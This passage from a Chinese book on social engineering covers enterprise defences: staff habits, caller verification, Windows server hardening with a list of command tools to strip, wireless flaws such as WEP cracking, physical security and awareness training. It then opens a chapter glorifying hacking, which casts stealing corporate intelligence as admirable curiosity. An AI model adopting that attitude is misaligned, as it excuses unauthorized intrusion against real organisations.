#### 8.2.2 正确的信息处理习惯

有时候，多数的安全威胁来自企业内部。根据美国FBI和CSI对484家公司调查发现：

- 有93%的企业网络资源使用不当
- 有85%的企业遭受过病毒攻击
- 有43%的员工电脑曾被木马入侵
- 有31%的员工滥用Internet
- 有16%的非法操作来自内部未授权的存取
- 有14%的专利信息被窃取
- 有12%的内部人员有财务欺骗
- 有11%的资料来自网络的破坏
- 有超过70%的安全威胁来自企业内部

数据的可信度我并不关心，但说明了一个最主要的问题：没有培养正确的信息处理习惯。社交工程攻击所产生的90%安全威胁都应归咎于员工，但直接的责任在于企业管理者没有让他们接受安全培训，纠正错误的习惯。

在国外，很多员工喜欢登录真人社交网站Facebook，然而潜在的威胁是，他们的个人主页偶有泄露公司机密资料，一些澳大利亚公司开始禁止员工登录这些社交网站。

又如典型的网络邮件收发，这很容易遭到欺诈攻击。一些木马与后门程序和其他正常文件捆绑伪装成来自企业与客户的邮件，这些员工便不加分辨点击陌生的链接或是运行恶意程序。

在物理安全方面，员工一点也没察觉到社会工程学师会跟随他们身后，让门卫与保安误以为攻击者是员工的客户，从而绕过门禁防御。

多数的企业都标榜团队精神的重要性，然而他们时常忽略一个问题，为什么会回应没有身着企业制服与佩戴证件的“同事”的信息质询。

有些员工有怕麻烦与懒惰的心理，他们总是想当然地认为：我可以换个更轻松、舒适的环境处理工作，我应该有更多的时间做喜欢的事。于是，他们通过VPN连入企业内网，使用移动存储设备（U盘、移动硬盘等）拷贝企业数据，在舒适的星巴克（上岛咖啡或家里）使用无线笔记本办公，他们似乎根本就没留意旁边是否有人正开启了无线传输进行数据窃密。

这是令人担忧的坏习惯。员工得小心那些友善地帮他推开门的人，企业主管应该告诉他们，错误的行为会给企业带来信息泄密。

#### 8.2.3 验证与授权程序

社会工程学师比演员更有魅力的原因是：不需要背诵台词或刻意装扮成某个角色。他们通常善于依靠伪装来欺骗人的眼睛，要么获取信任，要么突破心理防线通过你的认证，伪装成合法的同事、商业伙伴、客户及未知机构的咨询者进行信息窃取。

人员安全工程抵御这种欺诈的有效方式是验证与授权，最大限度将攻击者置于门外。

### Step 1：确认身份

通过来电号码显示可确认电话来自内部还是外部，然而这是可以通过修改电话网关来改变来电号码的，电信内部术语称之为“透传”。

回拨：从公司名册中查询请求者名字，并回拨电话进行验证。但这个验证有时候并不保险，可能会遇到两种情况：呼叫被转移、攻击者盗用企业分机。

担保：以可信人为攻击者进行身份担保。这时候可以与可信人进行验证，但多数可能是被冒称。

### Step 2：身份验证

查看员工目录。通过公司发放的职员表格进行验证，以及拨打电话至人事部验证。

与请求者的上司、部门、工作组进行核对。从公司名录表找出请求者上司、部门等进行验证，别使用请求者提供的号码。

询问保安与门卫。向门卫与保安查询请求者的出入记录，以及交通工具的相关登记。

复述。提出错误问题请其回答，如：“你知道公司后天举行派对，你拿到邀请卡了吗？”

### Step 3：权限核查

职位／部门／职责列表。对于请求者所质询的信息，对照公司发放的职责表确定信息是否在质询范围内。

出示额外权限验证。接受请求者质询信息的要求，但前提是请他出示被认可的内定ID、内定术语。

如果面对的信息请求者为公司已被解雇、心怀恶意的员工，上述的验证与授权等同于无效。那么，上述操作能从根本上断绝社会工程学师的攻击吗？答案是：不能。最为明显的例子是：超过60%的国有企业上司与主管部门出现越级访问，对未授权的信息进行修改、删除等操作，这并不为人所知。

### 8.3 服务器安全防御

每家企业内部每天总有一些服务器在运作，比如WEB、DNS、FTP、VPN等服务器，自然少不了被攻击者虎视眈眈地架起代理来扫描这些服务器。我们是否要先安装IDS（入侵监测系统）、硬件防火墙、蜜罐进行防御呢？不！最重要的是先要做好服务器安全。

没做好服务器安全的人总是一味指责Windows漏洞太多，Linux难于维护，这主要还是在于维护者对于操作系统没有完整的认识概念。系统安全贯穿于企业的整个部分，缺一不可！虽然“漏洞”永远没有尽头，但至少降低威胁才是目前最有效的解决之道。

#### 8.3.1 强化服务器策略

加强服务器的安全必须遵循的法则是——最小权限，其分支还包括最小的服务提供、最小的端口开放、最小的特权分配。本节将强化服务器安全分为两大类：程序安装与配置系统。其实做好系统安全在安装系统时就开始了，由于Windows太人性化了，以至于大多数人忽略了如何对它进行配置，从而增强它的安全性。

#### 8.3.1.1 程序安装的艺术

当插入系统安装盘进入蓝色的屏幕时，系统安全也从这里开始了……

- 1. 安装最小化操作系统

最好事先断开网络连接，确认磁盘原有数据删除干净，最好使用原版操作系统的相关版本（我们以Windows 2003服务器版为例）进行安装，不要使用Ghost版系统。启用NTFS文件系统，仅安装TCP/IP网络协议，不要安装额外的程序和服务，如图2。

#### （2）安装和配置应用程序

不要安装任何多余的应用程序，它们通常会给你带来额外的灾难，包括权限提升、命令执行、溢出等。将Windows自带的软件一一卸载、删除，包括IE、Outlook、Windows Media Player、Windows防火墙、MSN以及微软开发工具。

图2

另外，我们应该明确指定服务器的主要应用功能，它仅为特定的服务而服务，不再用这台服务器作其他的事，哪怕在上面使用Microsoft Office办公也是不允许的。

#### （3）安装最新的安全补丁

补丁分为系统补丁与应用软件补丁，是用来修复系统或软件的已知缺陷及漏洞的。因此，补丁用于针对特定的缺陷文件进行替换、修改，以消除漏洞带来的威胁（至少从根本上希望如此）。

典型的系统补丁的安装是通过Windows自动更新功能进行修补，在桌面“我的电脑”图标上按鼠标右键选择“属性”，在“系统属性”对话框中转到“自动更新”标签进行设置即可，如图3。

图3

系统补丁还可通过第三方软件进行安装，如超级魔法兔子、QQ等。对于应用软件的补丁来说，可以直接下载新的应用软件版本，也可以开启软件自身的自动更新功能进行缺陷漏洞的修补。一般来说，这些缺陷漏洞所带来的后果是执行恶意命令（挂马）、提升权限或拒绝服务攻击。

#### 8.3.1.2 配置系统的艺术

#### （1）配置系统服务

根据“最小化”法则，必须停用和禁止系统不必要的服务。例如，可以将Event Log、Logical …Disk Manager、Network Connections、Plug and Play、Protected Storage、Remote Procedure Call、Security Accounts Manager、Windows Management Instrumentation服务等设置为自动启动；而其它的服务，如DNS、IIS等服务都设置为手动启动，仅在需要使用时再开启它们。

如何查看系统服务并修改它们呢？先在“我的电脑”上按鼠标右键，选择“管理”——“计算机管理”，然后点击树形目录“服务和应用程序”下的“服务”，就可以管理系统服务了，如图4。

图4

## （2）配置端口

可用系统的“TCP/IP筛选”过滤不必要的端口。在“控制面板”打开“网络连接”，在“本地连接”上按鼠标右键选择“属性”。在弹出的对话框中选择“Internet 协议（TCP/IP）”，然后依次选择“属性”——“高级”——“选项”，接着选中“TCP/IP筛选”并点击“属性”，在弹出的对话框中可进行端口过滤，如图5。

TCP/IP筛选通常相当麻烦，建议使用防火墙来配置。另外，最好禁止NetBIOS接口，方法请参看图5，在“高级TCP/IP设置”框中转到“WINS”标签下，选中“禁用TCP/IP上的NetBIOS”，如图6。

图5  
图6

## （3）设置文件权限（ACL）

即在NTFS文件系统上限制分区与文件访问的条件，这里以取消C分区的“Everyone”组对磁盘的完全控制权限为实例进行说明。首先选择C盘后按鼠标右键选择“属性”，在弹出的“属性”对话框中，转到“安全”标签，选中“Everyone”并点击“删除”按钮即可，其它磁盘分区的设置方法一样，如图7。

## 第八章 安全铁律

同时，可将CMD命令运行的网络管理、系统管理命令移除，或是设置访问权限。这些命令文件包括tftp.exe、ftp.exe、nbtstat.exe、arp.exe、at.exe、cacls.exe、cmd.exe、ipconfig.exe、net.exe、net1.exe、netstat.exe、nslookup.exe、ntbackup.exe、ping.exe、regedit.exe、regedt32.exe、route.exe、runonce.exe、syskey.exe、tracert.exe、winmsd.exe、xcopy.exe、cscript.exe、wscript.exe等。

图7

#### 8.3.2 系统安全审计

其实，微软为Windows提供的安全解决方案不为大部分人所知，仅以插件方式存在，能做的也有局限性。系统安全审计一般以组策略（Local Security Policy）的安全为主，即账户策略、本地策略、软件策略等。

## （1）账户策略

用Win+R打开“运行”，输入“Gpedit.msc”打开组策略编辑器，依次打开树形目录“计算机配置”→“Windows 设置”→“安全设置”→“账户策略”，选中其下的“密码策略”，并按照图8的设置进行修改即可。

账户锁定策略一般设置为“3次无效登录”阈值，如图9。

图8  
图9

## （2）日志审核

Windows系统的日志审核默认是关闭的，必须手动开启。按图8的方式进入“本地策略”，选择其下的“审核策略”，并按照图10修改即可。

要查看日志记录，可通过“事件查看器”查看系统日志。在桌面“我的电脑”上按鼠标右键，选择“管理”，然后在树形目录选择“系统工具”下的“事件查看器”，可分别查看应用程序、安全性、系统的日志记录，如图11。

## （3）软件策略

使用软件限制策略可通过标识并指定允许运行的软件来保护计算机环境免受不信任软件的侵袭，即定义受限与允许，以使默认情况下不允许软件运行。

按照图8的方式进入“软件限制策略”，单击右键选择“创建软件限制策略”。在右边“对象类型”的“强制”上按鼠标右键选择“属性”，在弹出的对话框中选择“所有软件文件”就可使DLL文件受限，如图12。

附加的组策略设置还包括用户权限分配、安全选项。在图10中选择“用户权限分配”，你可以按照以下列表进行修改，最大限度保持系统的完整性。

- 管理员组（Administrators）可授权的权利：更改系统时间、创建页面文件、装载和卸载设备驱动程序、在本地登录、管理审核和安全日志、配置单一进程、配置系统性能、关闭系统、取得文件或对象的所有权。
- 备份操作员组（Backup Operators）可授权的权利：备份文件和目录、在本地登录、还原文件和目录。
- 用户组（Users）可授权的权利：本地登录。
- 将有关Everyone组的权利删除。
- 其它：不再授予其他任何权利。

对于“安全选项”的设置如下：

- 防止用户安装打印机驱动程序：已启用。
- 对全局系统对象的访问进行审核：已启用。
- 禁用按Ctrl+Alt+Del进行登录设置：已启用。
- 对备份和还原权限的使用进行审核：已启用。
- 不显示上次的用户名：已启用。

#### 8.3.3 建立安全防护屏障

利用系统特性加固系统安全后，第三级的防备是启用安全防护软件及硬件防护。这其中即包括杀毒、防火墙、主动防御、入侵检测系统、硬件防火墙等等。不仅如此，服务器管理员还需掌握相应的网络维护软件，以此构建安全的网络。

- 反病毒安全软件：卡巴斯基、NOD32
- 防火墙安全软件：BlackICE、Comodo
- 主动防御安全软件：微点主动防御
- 入侵检测系统：Snort
- 硬件防火墙：龙芯防火墙、锦衣卫士UTM
- 安全扫描软件：X-Scan、Nmap、Nessus
- 网络嗅探软件：Cain and Abel、zxarps.exe
- 流量监控软件：Nagios、Ntop、EtherApe
- 无线网络软件：Aircrack、Airsnort、KisMAC、NetStumbler
- Rootkit检测：Sysinternals、Tripwire、RKHunter
- 漏洞检测软件：Metasploit Framework、Canvas

### 8.4 无线网络安全缺陷与防护

无线网络就是利用无线电波作为信息传输的媒介所构成的无线局域网（WLAN）。它与有线网络的用途十分类似，最大的不同点在于传输媒介，它利用无线电技术取代网线，可以和有线网络互为备份。其标准包括蓝牙、802.11x、CDMA、GSM、3G等，应用平台有PDA、电脑（笔记本或台式机）、手机、寻呼机等。

无线网络主要由无线Hub、无线接入站（Access Point，即AP，也译作网络桥接器）、无线网桥、无线Modem及无线网卡等来实现。通常多用无线网卡；但它有个先天的缺陷是，无线AP发出的信号微弱，有建筑物阻隔时，信号衰减比较明显，甚至会造成网络中断。这其中AP就相当于网桥，整合了有线与无线网络架构模式，可理解为点对点的连接。根据应用环境与需求，网络结构有网桥连接型、基站接入型、Hub接入型、无中心结构。

对黑客而言，只要有无线网络信号覆盖到的地方，任何一个无线客户端都可以接收到此接入点的信号；这意味着，他们窃听或干扰信息就容易得多。并且，无线网络传输的信息没有加密或加密薄弱，使其容易被窃取和篡改。简而言之，无线网络所谓的风险不亚于有线网络。现在一起看看WLAN的主要缺陷：

## 1、网络窃听

类似于有线网络平台下的ARP攻击，即截取数据包。但无线窃听似乎更加时髦，你可以直接携带笔记本前往有无线信号覆盖的区域，比如公园或商业公司里面进行窃听操作，不必再经过层层的渗透攻击进入内部网络，如图13。

## 2、WEP攻击

WEP（Wired Equivalent Privacy，有线等效加密）是一种符合802.11b标准的无线网络安全协议，该技术源自于名为RC4的RSA数据加密技术，以满足用户更高层次的网络安全需求。WEP能使在两台设备间无线传输的数据进行加密，用以防止非法用户窃听或侵入无线网络。然而，WEP协议存在非常多的缺陷，主要表现在密钥管理、传输安全等方面。其加密算法RC4存在很多缺陷，使其不能发挥应有的效率，一般可以使用AirSnort和WEP Crack进行破解，如图14。

图14

## 3、MAC欺骗与AP中间人欺骗

你知道在有线局域网中IP被封锁后怎么解决吗？常用的方法是修改MAC地址，冒充正常用户的MAC后盗用IP绕过网关上网。同样，AP提供的MAC地址过滤也是华而不实的，因为市场上有多数网卡都能使用软件更改MAC地址。

另外，当攻击者无线设备信号强于真实AP信号时，目标将接入攻击者的AP中，一旦连接建立，就造成会话劫持，之后就能做很多事，包括执行恶意命令。

## 4、信号干扰

由于2.4GHz的频率是向公众开放的，大多数无线设备可在这个范围内工作，而802.11b信号可受到新型2.4GHz设备的干扰。常见的无线信号干扰包括在飞机飞行中使用手机，或将手机放在电脑显示器旁。

## 无线网络安全解决方案

- 访问控制：利用ESSID、MAC限制，防止非法无线设备入侵。
- 使用新一代无线安全技术——IEEE 802.11i。
- 采用端口访问控制技术（IEEE 802.1x）和可扩展认证协议（EAP）。
- 启用第三方无线加密方案WEP++。
- 将AP安装在安全的位置，使物理接触困难。
- 不为AP设置默认的用户名和密码。

## 第八章 安全软体

### 8.5 网络设备的物理安全

对于信息的偷窃、入侵、破坏等这种人为或自然灾害和意外所导致的威胁称之为物理安全。与系统安全的区别在于，它需要投入大量的人力、资金来建立。对于企业的整个安全而言，软安全与硬安全同等重要，缺一不可。

#### 8.5.1 通信设备物理安全

通信设备包括本地交换机、硬件防火墙、路由器、各种应用服务器、数据库服务器等，其它与之相关的还有操作终端、打印机、存储设备、电源等。

上述的相关物理设备，有部分需要放置于机房中，这里假设为存储服务器。访问内部存储服务器时，有必要设置访问隔离，典型的方案为软隔离和硬隔离。

用软隔离可以防止攻击者的访问，这其中的方法包括MAC地址过滤、VLAN隔离、IEEE 802.1Q身份验证、基于IP地址的访问控制列表和防火墙控制。

硬隔离方案又是怎样的呢？首先是从存储服务器本身着手。我们知道，保持服务器正常运转，一个机箱是必须的，因此其它的输入、输出设备可以移除，包括显示器、键盘、鼠标、光驱等都可移掉，不要留在机房中，主板不必要的接口可封掉，最后将服务器使用专用机柜锁住。

另外，要同时保障机房散热合理，开启空调平衡温度。如当需要操作维护时，须有监督人在场，检测维护者的操作是否合理化，即用笔记本电脑接入时，是否出现错误的USB接口数据拷贝。

而当机房服务器允许内部员工自由访问时，必须得考虑电缆安全是否会被破坏与窃改。这可用压力法来保护电缆安全，将电缆密封于塑料套管中，并在线缆的两端充气加压，再联上报警系统测量压力。如果压力下降，则意味着电缆可能被破坏了，维护人员要迅速去检查。

在与服务器直接相关联的软、硬隔离方案中还涉及到一个最为普通和常见的基本隔离方案，这就是门禁系统。基本的门禁系统包括封闭式机房和门禁控制中心，它们的配合可以完全将服务器封闭起来，断绝与外部不必要的联系。典型的门禁系统主要由门禁控制器和门禁管理主机、IC卡读卡器、电子锁、出门按钮等组成，其工作方式如下：

门禁管理主机接入局域网的中心数据库，由中心数据库授权各控制器的功能和卡片权限，可直接设置和读取控制器的所有资料，实时监控各门禁点的工作状态，经系统管理员确认后可更新中心数据库的相关数据。当然，不同的公司所生产的门禁系统有所不同，我们建议有必要再使用闭路电视监控出入情况。

#### 8.5.2 布警周边监控与身份认证

这里以银行机构为例来说明周边监控与身份认证，所有步骤皆为理论虚构。营业厅及金库人员统一由智能卡进行管理，该智能卡印刷有银行标志及员工标识，并附加生物认证（指纹识别），只有通过卡加上主管领导指纹才能进入金库大门。

进入营业厅的所有人员凭合法的智能卡刷卡或输入指纹。当卡丢失及人员调动时，由主系统改变并注销卡号，一旦为非法卡时，验证系统立即自动报警。

同时，所有的刷卡及指纹认证记录都强制保存，若有员工在规定的时间没有刷卡、输入指纹时系统就会产生报警，以确保银行员工及财产的安全。

另一种验证为权限分级，即前三人输入刷卡请求后，后一人进行指纹验证才能开启金库，指纹录入过程会有提示音，仅在提示音响的状态下指纹读入才有效，过时需要再次刷卡。若有停电发生，验证系统可存储记录为3万条，其门锁带有辅助开启功能，锁的抗冲击不少于250公斤，全系统在断电状态能正常工作6小时以上。

上述情景的认证你一定在影视中看过，但实际的缺陷也很明显，一旦黑客设法连入银行内部网络，首要的动作就是破坏系统的认证措施；但目前，它们看上去似乎很安全。

身份认证也称作令牌系统，为人员访问重要资料与进入禁区所提供的认证方法。国外使用的认证有询问/答复令牌、钥匙卡、智能卡、生物测定设备，而我们国内通常使用后两种，即智能卡、生物识别技术。

智能卡类似于ATM卡，可定制为企业、专用机构内的智能卡，卡里的信息主要为用户信息标识与编码。理论上，智能卡有被伪造的风险，这取决于加密算法，典型的卡有存储卡、加密存储卡、CPU卡、射频卡。

生物识别技术依赖于某类型的输入设备进行识别，如视频摄像机、视网膜扫描器、指纹垫或麦克风等。它们主要将接收的信息数字化，并与数据库中的信息进行比较认证，检测是否匹配。我的建议是，企业应该广泛使用生物识别技术。

说完认证，我们再来说说周边监控。通常多数企业会选择闭路电视监控方案，它由多个部分组成，其中监控设备包括摄像机、矩阵、控制键盘、数字硬盘录像机、视频服务器、显示器或电视墙、计算机、通讯转换器、控制器、读卡器、指纹头、双鉴探头、报警探头等等。

闭路电视的摄像头一般安置于大厦门口以及重要设备及资料存储的地方，并能周期性地摆动，要有镜头变焦功能，以方便后台的操作员进行控制。

一些大型企业所安装的闭路电视摄像机可能达数百上千台，控制中心可以进行多画面查找侦查。视频的记录一般存档在30天以上，如无意外才可将记录销毁。

#### 8.5.3 数据分类与垃圾信息

对纸张、DVD、U盘、移动硬盘及电子文档等数据存储介质进行标记，称之为数据分类，用以控制内部与外部人员所能接触的信息访问权限。

## 这里引用Michael Gregg所建议的数据分类

- 公开：公司内部及外部的任何人都可以获得这些信息。
- 内部：非公司内部人员不能利用这些信息。
- 限制分发传阅：这类信息只能分发给姓名在分发列表上的人。每一副本都有唯一的标记，从不复制多余的副本。
- 针对个人：这类信息要和职工的个人地位相称（例如，从业时间、评价、利益主张等）。

当然，数据分类是不可能彻底保护数据安全的，这样的分类无非着重于资料的管理与减少一些不必要的威胁。

再一个是垃圾信息处理。任何涉及公司有关的资料，包括表格、图表、名单、采购等纸质材料必须都经过碎纸机处理，碎纸方式为条状或丝状。不再使用的外部存储必须彻底对数据进行清除、销毁处理。传真机与打印机旁边不能有任何信息遗留复件存在，以防止攻击者会利用传真机进行伪造攻击。

## 第八章 安全铁律

### 8.6 全局统筹——风险评估

每家公司永远不知道攻击者何时登门拜访，从中窃取重要信息，也许就在明天或者后天整理、归类资产时，才突然发现公司的软件产品被窃，客户数据被篡改，商品交易记录丢失、员工离职……一般来说，他们不会将这些问题公开化而使得公司颜面无存、股票下跌。如果企业主管不想撞上这种令人烦扰的问题，那就有必要对公司的资产进行风险评估，提前预防且消除未知威胁及弱点。

#### 8.6.1 信息资产鉴别与评估

熟悉风险评估的一些术语吗？如风险、资产、威胁、弱点、影响等。如不了解，可简单地这样理解风险评估：确定某机构资产所谓的风险，并消除某些威胁利用资产的弱点所造成的潜在破坏。还是举个能理解的例子吧：某银行指纹认证服务器没有进行物理隔离，遭到黑客的攻击，服务器瘫痪导致营业中断10天。那么风险评估如下：

- 风险 = 遭到黑客攻击
- 资产 = 指纹认证服务器
- 影响 = 营业中断10天
- 威胁 = 黑客攻击
- 弱点 = 没有进行物理隔离

风险评估主要应用于政府、军队、金融、电信、电力、石化、交通、教育机构等广泛的信息领域，也可以说，它们最离不开信息安全。那么主要的资产鉴别有哪些呢？有形资产：人员安全、建筑物、物理设备、软件产品及源代码。其它包括商业数据（客户数据、名单）、知识产权（商标、专利、版权、商业秘密）、现金。无形资产：商业名誉、名牌及所在行业的信用、客户的喜爱度。认定资产价值有多种方式，属于种瓜得瓜，种豆得豆，依情况而言。例如数据存储服务器，评定的标准可以先参考原始购买价格，然后加上目前使用中硬盘里所存储信息的价值来进行评估。

#### 8.6.2 威胁评估与风险管理

鉴定好资产的价值之后，例如，防火墙公司的病毒库升级服务器为公司重要的安全资产，评定它的风险就是典型的入侵渗透测试，这种入侵与黑客性质不同，即白箱测试。评估技术员可事先熟知该服务器所在网络拓扑、服务器信息，并使用漏洞扫描器检测系统漏洞，再从不同端口所开启的服务进行测试。如果有硬件防火墙，可以进行压力测试；对此黑客来说，他们获取的信息足够多。经过一段周期的评估，安防公司列出相关资产的脆弱性所带来的威胁，并提供修补方案，比如系统加固、网络隔离、安装IDS之类的。同时还有剩余风险管理，即威胁处理的机制，具体的流程如图15。安全与风险评估是个整体，这里提下国内的情况，目前主要的网络安全风险评估公司有绿盟科技、启明星辰、天融信、联想网御、安氏等，但就整个评估水平来说，仍处于中端。

在国家信息中心信息安全风险评估网站 www.isra.infosec.org.cn 所提供的风险评估公司的 PPT 来看，天融信所提供的相关安全方案比较合理。

### 8.7 信息安全意识培训

本书自始至终都贯穿于人员的安全威胁，尤其是企业的员工最容易遭受到社会工程学师的攻击。要从根本上防止社会工程学师对他们的攻击，那就必须先让他们清楚社交骗子惯用的手法伎俩。

令人遗憾的是，国内近 90% 的企业要么忽略，要么仅是简单地在职工守则上写几句而已，若仍然那么松懈，他们迟早会受到攻击带来的灾难。

对企业人员的信息安全，通常视投入的程度而言，不要让员工在潜意识中认为安装了硬件防火墙、IDS、蜜罐等就能抵挡一切，那不可能，社会工程学师的第一步攻击目标往往就是员工。

#### 8.7.1 安全觉醒与培训

安全觉醒的目的是通过相关的教育与培训，达到员工对潜在的安全威胁免疫，深刻理解错误的行为会给公司带来何种的信息损害。企业可通过一些手段使他们时刻留意安全的重要性，比如：

- 撰写独立的安全策略手册：尽量言简意赅，字体醒目，太长与空泛的字词对理解安全没有帮助。
- 在公司内部期刊开设专栏：专栏用以报道公司可能出现的潜在威胁，并时刻对安全防范进行提醒。
- 标识：发行特别的纪念品或制作海报进行张贴，其中标示出安全提示。
- 在内部网络张贴：在公司内网 BBS 及醒目位置张贴安全防范提示。
- 邮件：发送定期的邮件对大家进行提示。

上述手段最终的结果是影响员工的行为与态度，使他们潜意识中有深层的安全观念。其中的安全策略与提示的真正目的是引导他们，让他们知道哪些误操作会带来风险。一些主管有必要以身作则遵守安全策略，让员工参与到企业的信息资产保护。

在安全培训方面，国内主要的安全公司通常也提供这种附加服务，但并没有将其独立出来。其面向的对象相当局限，仅为公司的网络技术员、操作员才接受相应的安全培训，而属于公司安全边缘的门卫、保安、客服等，通常没有受到培训。尽管他们并不能接触电脑，但社会工程学师可欺骗他们进入大楼和办公室。因此，在进行安全培训时，有必要将他们考虑进去。

#### 8.7.2 周期性渗透测试计划

员工最终对安全有如何的认知？培训是否增强自身的威胁感？是否自信不被社会工程学师攻击？……发个问卷进行调查是没有任何效果的，评定成绩的标准是经过社会工程学攻击的渗透测试。

在国内暂时没有提供社交工程攻击渗透测试的公司，相信在未来，国内的安全公司应该会跟上新兴攻击的步伐。折中的方法是，公司选出有丰富社交经验的代表参照本书所提供的攻击方式向内部员工们进行渗透测试，如越权信息索取、发送垃圾邮件制造陷阱、针对人的心理学弱点进行攻击等等。

除了单纯性的白盒测试以外，还应采用黑盒测试。选择有经验的安全员对公司进行攻击，依据他们所搜集的信息来判定企业的安全方案是否妥善。

例如，安全员是否能够通过各种渠道摸清企业内部的网络拓扑信息，伪装成清洁员在员工办公桌旁收集废纸篓中的垃圾纸张；伪装成企业的大客户，声称要求出示公司重要信息才能合作。

通常，黑盒测试比白盒测试能找出更多有趣的事情，包括隐藏的不易发现的威胁。

另外，也要对企业人员进行有必要的笔试安全问题测试，从最终的评分结果可以了解到员工对安全概念是否有完整的认识，脑海中的记忆是否对非传统安全产生印象？这很重要，这会影响到最终的渗透测试。

笔试中的问题可就数据分类、验证与授权、安全网络操作等进行提问，一般建议为 30 个选择题，以不影响员工正常工作或打扰他们的计划为主。

就整个渗透测试而言，每半年应有一个完整、系统的白盒、黑盒测试，以及笔试，最大限度控制威胁点以保障企业正常运营的安全。

## 终极黑客圣经·样

- 非凡而卓越的黑客事业
- 成为优秀的社会工程学师
- 组建庞大信息库的方法
- 智囊团，你的人脉资源
- 准备好你的工具箱了吗？
- 世界不是平的


## 第九章 像米特尼克黑客一样

### 9.1 置身于卓越的黑客事业

我和圈内所有人一样，在踏入电脑入侵的路上时并不知道美国有一位伟大的黑客——凯文·米特尼克。随着媒体不断报道米特尼克与 FBI 的“恶行”，使我开始关注“黑客”概念。这位将黑客事业置于工作、婚姻及任何东西之上的米特尼克为何令我们这一代青年群体疯狂？毫无疑问，米特尼克是黑客们的精神信仰，自由、免费、共享的黑客原则影响着一代又一代人。

时至今日，一个颇为争议的问题仍不断在黑客社区讨论、激化：“怎样的人才是被认可的黑客？黑客是不是贬义词？”

这个简单的问题不应弄成更多的版本，包括使用吹嘘、贬低等手段进行人身攻击。任何人都没有能力评估一个人是否为“黑客”，唯一有决定权的是计算机。“黑客”名词与贬义、褒义无关，它证明了你在计算机安全界强大的能力与影响力，是身份与权威的象征，你的名字将载入全球计算机黑客发展史的英雄榜上。

区分“黑客”的界限有很明显的条件，包括在黑客领域有卓越的成就、能给任何系统及平台以致命的打击、能创造性发展更广的安全概念等。

例如，加拿大举行的 CanSecWest 黑客大赛，一位名叫米勒（Charlie Miller）的黑客只用了 2 分钟时间就轻松击穿 MacBook Air 的安全防线，拿到了系统控制权，他是所有黑客中最快攻破目标系统的，在场的观众用掌声来为他加冕；他因此而获得 1 万美元的奖金。优秀黑客的卓越能力表现在对不同系统平台的漏洞挖掘、编写极佳的攻击代码与研究未来的非传统信息安全上。

另一个争议是黑客道德与社会道德的悖论。越来越多的媒体记者分不清现状，利用舆论把“黑客”描绘成夸张的社会破坏分子，他们把操作系统的缺陷与人为疏忽所引起的安全问题归咎于黑客的恶意攻击。他们带有偏见的看法等同于将计算机世界第一人——艾伦·图灵说成破坏分子，因为图灵曾破解了二战时的德国情报加密系统。

对黑客群体而言，挑战系统的安全与破解软件是因为技术所带来的冒险与刺激，没有哪个行业有如此的魅力。黑客技术每天都在闪电式地更新，黑客们挑战着一个又一个新的安全高度，只要我们喜欢，就可以将黑客事业置于人生之上，给世界的科技发展带来更大的改革。

当然，我不建议黑客们将危险的攻击技术用于恶意破坏行为，但你必须将漏洞通报并公开化，以警醒那些软件厂商，使他们为用户提供更有保障的人性化服务。

### 9.2 成为优秀的社会工程学顾问

#### 9.2.1 好奇

没有好奇心的人天生就不是做黑客的材料，尚未成为黑客的朋友应该记住我的忠告：不知你是否还能回忆起，年幼时曾在大街上缠着母亲询问那些五颜六色的事物是什么？看电视剧时总好奇剧中的妖怪为什么会飞起来？也试图把会动的玩具拆开，看看是什么原因使它动起来……这就是我们小时候对未知事物充满好奇心的状态。

如果你在 3 岁时就开始摆弄计算机编程，那么你现在已是天才！但是，不是谁都在开放的环境条件下成为黑客天才，圈内的朋友和我一样，都是在后天才对黑客充满兴趣与好奇的。

现在，我想请你认真地搜索小时候对某些事物的好奇心状态……比如你想探寻某些问题的答案，有没有人认真给你解答？你试图去解开心中谜底的行为有没有被人强制禁止？你的父母不能像《十万个为什么》那样给你好奇的答案，甚至还可能使你的想象遭受到打压（心理学术语，即被忽略的意思！）。

在不断的打压环境中可能让你学聪明了，你干脆不再去问，为了免遭责骂也不用试图将玩具零件全都拆开了……终于，你表现得极为听话，很受周围的人欢迎，不再对未知的事物充满求知欲……

维吉尼亚·萨提亚家庭心理治疗大师很明确地指出，人后天所做出的行为和形成的性格都与早期的经历有关。当在年幼时好奇心没有被满足，将会阻碍人的正常发展，但后天试图去改变态度及所处的环境，却有可能成长更快。

丧失了好奇心，对个人成长的驱动力没有帮助。如果你听到某个黑客取得了大公司的商业情报时，你应该这样认为：他一定很好奇那份情报中的数据会给商界带来怎样的影响。

请你现在开始对新生事物充满好奇的求知欲望，如果你很好奇银行的 ATM 机具体的交易流程，很可能银行会为此耗费数亿资金修补缺陷或更换安全的设备。

#### 9.2.2 投入

> “那你为什么成了最有名的黑客？”

“因为我投入。我不认为我比别人更聪明；如果我是个天才的话，就不会像现在这么狼狈了。我会开着奔驰前往我在曼哈顿的别墅，哈哈哈……”——逃亡生涯中的米特尼克在回答里特曼记者的采访。

诠释“黑客”一词的另一层意思是：在黑色的 cmd、shell 键入条条攻击系统的命令，在 Unix/Linux 的黑色终端编译着溢出工具，搜查系统漏洞；总带着黑眼圈，在寂静的暗夜精神亢奋地翻查用户数据库……

充满神秘色彩的黑客总令人们好奇他强大的能力是不是与生俱来就存在。不！那是因为他们对这项事业的投入！社会工程学师要精通计算机数百种编程语言模型、自然语言（英语、汉语、韩语、日语等）、业界术语（金融业术语、工业术语等）、专业（心理学、计算机、商业管理等）……不同的攻击中面对未知问题需要收集信息进行解决，这就是为什么社会工程学师总是那么容易找准目标，能与任何人交谈。

我和米特尼克一样也不曾聪明过；我讨厌上学，不喜欢数学（事实证明，你想编写好的攻击工具会需要它），更不喜欢被人管制。我在最近的五年中常常操作计算机至深夜 3 点；从来都不吃早饭，因为那时我在休息……若健康专家知道了，一定会指责这是不按生活规律的糟糕生活，但最近我正努力使自己健康起来。

没有什么比黑客技术更加令人着迷，我想更多的一部分人也和我一样，习惯在黑夜中翻查代码，或是思考更有效率的计谋。我们深深沉迷于其中，QQ 群小圈子里的头像经常处于上线状态。

不过千万不要误解我的意思，以为黑客都是熬夜熬出来的。其实我指的是，当你投入到一个感兴趣的技术研究中时，你将为此耗费大量的精力。后果就是让你分不清白天还是黑夜，甚至将很多的事都丢诸于脑后，但这很有价值。我极力赞成你投入到某个项目中专心解决它，让自己因此感到很快乐、很有成就感。

请你现在一直保持对某个技术项目的疯狂投入状态，不感兴趣的千万别做，这样你会学到更多，也许还会写出一份超绝的安全报告哦！

#### 9.2.3 创新

